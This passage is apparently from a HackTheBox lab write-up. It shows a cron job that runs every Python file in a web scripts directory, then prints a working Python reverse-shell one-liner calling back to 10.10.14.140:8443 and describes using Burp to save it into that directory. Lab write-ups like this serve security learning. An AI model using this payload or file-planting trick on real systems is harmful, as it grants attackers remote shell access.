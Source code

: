 I have also found something interesting in the “install.md” file:

> If you want to run Python scripts (for example, our server deletes all files older than 60 minutes to avoid system overload), you can add the following line to your /etc/crontab.
>
> * * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done


It is looking like any file with the .py extension will be executed from the scripts directory.

So let's use the reverse shell as input data in the form.
```python
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.140",8443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
```
![Desktop View](/assets/img/2025-10-28-HTB-Converser/shellpy.png)
_Form view_

and intercept the request in Burp to save that file in scripts directory

![Desktop View](/assets/img/2025-10-28-HTB-Converser/shellpy-burp.png)
_Burp intercepting and saving in another directory_
